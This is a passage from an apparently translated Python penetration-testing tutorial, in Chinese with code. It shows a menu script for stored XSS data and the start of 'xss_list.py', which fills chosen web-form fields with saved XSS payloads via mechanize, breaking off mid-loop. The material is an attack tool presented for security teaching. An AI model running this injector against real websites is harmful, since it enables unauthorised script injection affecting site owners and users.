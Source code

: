 ```py
  print "  E for exit"
  print "*"*40
  c=raw_input("Enter t")  
  if (c=='C' or c=='c'):
    create()

  elif(c=='U' or c=='u'):
    update()

  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "t Wrong Input"
```

希望你熟悉前面的代码。现在，看看前面代码的输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/4f10eadf-1cad-4681-99ed-93cea687ba03.png)

xss_data_handler.py 的输出

前面的截图显示了`mohit.xss`文件的内容；`xss.py`文件限制为两个字段。然而，现在让我们看看不限于两个字段的代码。

`xss_list.py`文件如下：

```py
import mechanize
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)

br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
```